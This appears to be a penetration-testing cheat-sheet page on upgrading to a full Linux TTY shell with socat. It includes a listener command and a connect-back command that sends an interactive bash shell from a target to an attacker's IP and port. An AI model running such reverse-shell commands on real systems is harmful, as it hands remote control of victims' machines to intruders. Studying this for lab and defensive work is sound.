 # Full Linux TTY Shell

### Listening

```bash
socat TCP-L:<port> FILE:`tty`,raw,echo=0 

# raw,echo=0 do the same thing as "stty raw -echo; fg" in netcat shell
```

### Connect Back

{% hint style="info" %}
you have to install socat in the tager machine as it is not installed on lots of Linuxes.
{% endhint %}

{% code overflow="wrap" %}
```bash
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
{% endcode %}

* **pty :** allocates a pseudoterminal on the target -- part of the stabilisation process
* **stderr** : makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
* **sigint** : passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
* **setsid** : creates the process in a new session
* **sane** : stabilises the terminal, attempting to "normalise" it.

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption><p>As normal, on the left we have a listener running on our local attacking machine, on the right we have a simulation of a compromised target, running with a non-interactive shell. Using the non-interactive netcat shell, we execute the special socat command, and receive a fully interactive bash shell on the socat listener to the left:</p></figcaption></figure>
